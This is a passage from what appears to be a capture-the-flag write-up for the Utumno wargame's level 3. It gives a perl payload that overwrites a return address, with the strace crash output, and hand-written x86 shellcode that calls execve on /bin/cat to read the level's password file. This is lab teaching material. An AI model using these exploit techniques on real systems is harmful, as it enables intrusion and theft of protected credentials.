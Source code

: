 ```bash
[*] Target: 0xffffd38c - Value: 0x24
[*] Target: 0xffffd38d - Value: 0x26
[*] Target: 0xffffd38e - Value: 0x20
[*] Target: 0xffffd38f - Value: 0x2E
```

Now we have the values we need to send as the first byte for each loop, we can attempt to overwrite the return address with just 4 "A's" to check it works.

```bash
utumno3@utumno:/tmp/tasks/utumno3$ perl -e 'print "\x24\x41\x26\x41\x20\x41\x2e\x41"' | strace /utumno/utumno3
execve("/utumno/utumno3", ["/utumno/utumno3"], 0x7fffffffe340 /* 28 vars */) = 0
[ Process PID=17583 runs in 32 bit mode. ]
{SNIPPED}
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

The return address is successfully overwritten with **0x41414141** (**AAAA**) which causes a **Segmentation Fault**.\
Now we need somewhere to return to, for this I am going to use an environment variable to hold the shellcode. Using shellcode to spawn a shell somewhat works, it successfully runs **/bin/sh** however it fails due to an **ioctl** error. So instead, I am going to write some custom shellcode to simply read the password file (**/etc/utumno_pass/utumno4**).

#### read.asm
```nasm
section .text
global _start

_start:
        xor ecx, ecx            ; ecx = 0
        mul ecx                 ; eax, ecx, edx = 0

        push eax                ; null terminator
        push 0x7461632f         ; push "/cat"
        push 0x6e69622f         ; push "/bin"
        mov ebx, esp            ; move pointer to "/bin/cat" into ebx

        push eax                ; null terminator
        push 0x73736170         ; push "pass" (symlink to password file)
        mov ecx, esp            ; move pointer to "pass" into ecx

        push eax                ; null terminator
        push ecx                ; push pointer to "pass"
        push ebx                ; push pointer to "/bin/cat"
        mov ecx, esp            ; move pointer to {"/bin/cat", "pass"} into ecx

        mov al, 0xb             ; move execve syscall number into al
        int 0x80                ; call execve
```
